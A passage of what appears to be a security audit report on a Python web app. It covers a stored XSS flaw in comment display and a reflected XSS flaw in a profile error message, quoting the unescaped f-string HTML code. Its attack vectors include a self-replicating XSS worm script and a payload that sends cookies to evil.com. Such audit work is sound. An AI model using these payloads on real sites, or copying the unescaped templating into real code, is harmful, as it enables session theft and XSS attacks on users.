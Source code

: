 
### 3. Stored XSS - Comments Section

**Vulnerability Type:** Stored XSS in User Comments  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 9.0 (Critical)  

#### Location Details:
- **Function:** `view_post()` comment display
- **Line Numbers:** 196-201
- **Vulnerable Code:**
```python
content += f"""
<div class="comment">
    <strong>{comment[2]}</strong> - {comment[4]}
    <p>{comment[3]}</p>
</div>
"""
```

#### Attack Vectors:
1. **Worm Propagation:**
   ```javascript
   <script>
   fetch('/post/1/comment', {
       method: 'POST',
       body: 'comment=' + encodeURIComponent(document.scripts[0].outerHTML)
   });
   </script>
   ```
   - Impact: Self-replicating XSS worm

2. **Session Hijacking:**
   - Payload: `<img src=x onerror="new Image().src='//evil.com?c='+document.cookie">`
   - Impact: Silent session theft

---

### 4. Reflected XSS - User Profile Error

**Vulnerability Type:** Reflected XSS in Error Messages  
**Severity:** **HIGH**  
**CVSS 3.1 Score:** 7.5 (High)  

#### Location Details:
- **Function:** `user_profile()`
- **Line Numbers:** 244-250 (specifically line 247)
- **Vulnerable Code:**
```python
error_msg = f"""
    <h1>User Not Found</h1>
    <div class="alert alert-danger">
        User '{username}' does not exist.
    </div>
"""
```
